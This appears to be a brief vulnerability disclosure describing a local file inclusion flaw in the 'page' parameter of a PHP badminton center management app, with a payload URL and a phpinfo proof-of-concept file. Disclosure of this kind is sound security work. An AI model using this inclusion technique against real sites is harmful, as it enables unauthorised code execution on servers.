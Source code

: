 # Badminton Center Management System v1.0 by oretnom23 has The local file contains

vendor: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Vulnerability File: ip/bcms/admin/?page=

Vulnerability location: ip/bcms/admin/?page=, page

Payload: ip/bcms/admin/?page=shell

![image](https://user-images.githubusercontent.com/54017627/170613342-c6ea33e6-bff9-4fcc-8157-35d9ae765975.png)

We create a shell.php under the PHP file of the root of the website, which reads "<? phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/170479151-b4aabc1a-fdbd-45d2-8f5a-248d37092584.png)

And visit http://ip/bcms/admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/170613266-c448f20c-2bb8-4c18-9a45-436e15eb01d5.png)
